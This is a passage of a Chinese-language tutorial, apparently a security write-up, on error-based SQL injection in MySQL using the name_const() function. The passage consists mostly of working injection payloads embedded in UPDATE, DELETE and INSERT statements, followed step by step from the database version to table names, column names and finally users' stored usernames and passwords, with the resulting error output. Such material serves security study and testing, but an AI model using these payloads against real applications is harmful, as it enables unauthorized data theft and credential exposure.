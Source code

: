 update：

```
UPDATE users SET password='Nicky' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '' WHERE id=2 and username='Nervo'; 
```

delete：

```
DELETE FROM users WHERE id=1 or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)or ''; 
```

提取数据：

在最新的 MYSQL 版本中，使用 name_const()函数只能提取到数据库的版本信息。但是在一些比较旧的高于 5.0.12(包括 5.0.12)的 MYSQL 版本中，可以进一步提取更多数据。在这里我使用 MySQL5.0.45 进行演示。

首先，我们做一个简单的 SELECT 查询，检查我们是否可以提取数据。

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT 2),1),name_const((SELECT 2),1))a) or '', 'Nervo'); 
```

如果显示 ERROR 1210 (HY000): Incorrect arguments to NAME_CONST，那就洗洗睡吧。。

如果显示 ERROR 1060 (42S21): Duplicate column name '2'，就可以进一步获取更多数据。

![enter image description here](img/img20_u24_png.jpg)

获取 newdb 数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'users' 
```

获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1),name_const(( SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'id' 
```

获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT concat_ws(0x7e,id, username, password) FROM users limit 0,1),1),name_const(( SELECT concat_ws(0x7e,id, username, password) FROM users limit
0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name '1~Jane~Eyre' 
```
